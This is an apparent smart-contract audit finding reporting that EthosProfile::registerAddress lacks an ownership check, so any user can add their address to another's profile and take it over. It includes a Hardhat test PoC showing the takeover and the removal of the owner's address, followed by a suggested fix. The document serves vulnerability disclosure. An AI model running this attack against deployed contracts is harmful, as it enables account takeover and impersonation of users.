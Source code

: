 Amusing Rose Fox

High

# The `EthosProfile::registerAddress` function does not check if the profile provided in the parameters belongs to the caller

### Summary

The `EthosProfile::registerAddress` function takes in an address to add to a profileId, the profileId, a random value, and a signature(ensuring the address belongs to the caller) and adds the address to the profile. In the `EthosProfile::registerAddress` there is no check to ensure the profile provided belongs to the caller, as such any user can add their address to another user's profile, thereby having complete control over the profile.

### Root Cause

There is a missing check in the `EthosProfile::registerAddress` function at [Line#373 to Line#409](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L373-#L409) to ensure the profile provided as input belongs to the caller.

### Internal pre-conditions

- There needs to be at least one profile that has been created (i.e the `profileCount` has to be at least 2)
- The profile that the user wants to add their address to must have less than the max addresses added

### External pre-conditions

_No response_

### Attack Path

- Owner invites User A
- User A creates a profile using owner profile ID and gets a profile Id
- Attacker calls `registerAddress` with User A's profile Id and adds their address to user A's profile giving them total control over it

### Impact

The attacker now has complete control over user A's profile and can create attestations, leave reviews, vote, discuss, and even remove addresses on the profile effectively impersonating the owner of the profile. And as seen in the POC they can remove user A's address from the profile taking full control over it.

### PoC

```javascript

it('POC -- No check for if callerId == profileId', async () => {
      const { ethosProfile, PROFILE_CREATOR_0, EXPECTED_SIGNER, OTHER_0, OWNER } =
        await loadFixture(deployFixture);

      const profileId = String(2);
      const rand = '123';
      const signature = await common.signatureForRegisterAddress(
        OTHER_0.address,
        profileId,
        rand,
        EXPECTED_SIGNER,
      );
     //PROFILE_CREATOR_0 is invited and creates a new profile
      await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
      await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);
      
      //OTHER_0 calls registerAddress and links his address to the PROFILE_CREATOR_0 profile
      await ethosProfile
        .connect(OTHER_0)
        .registerAddress(OTHER_0.address, profileId, rand, signature);

      const adddresses = await ethosProfile.addressesForProfile(2);
      expect(adddresses.length).to.be.equal(2, 'should be 2 addresses');

      expect(adddresses[0]).to.be.equal(PROFILE_CREATOR_0.address, 'wrong address[0]');
      expect(adddresses[1]).to.be.equal(OTHER_0.address, 'wrong address[1]');

      //OTHER_0  now has full control of PROFILE_CREATOR_0 profile and can leave reviews, vote, add replies and even remove addresses on behalf of PROFILE_CREATOR_0 profile
      //OTHER_O removes PROFILE_CREATOR_0 address from the profile
      await ethosProfile.connect(OTHER_0).deleteAddressAtIndex(0);
      const adddressesD = await ethosProfile.addressesForProfile(2);
      expect(adddressesD.length).to.be.equal(1, 'should be 1 address');

      expect(adddressesD[0]).to.be.equal(OTHER_0.address, 'wrong address[0]');
      
    });
```

### Mitigation

Add a call to the `EthosProfile::addressBelongsToProfile` function (which checks if an address is linked to a profile) to the `EthosProfile::registerAddress` function to ensure the caller is linked to the profile they want to add an address to.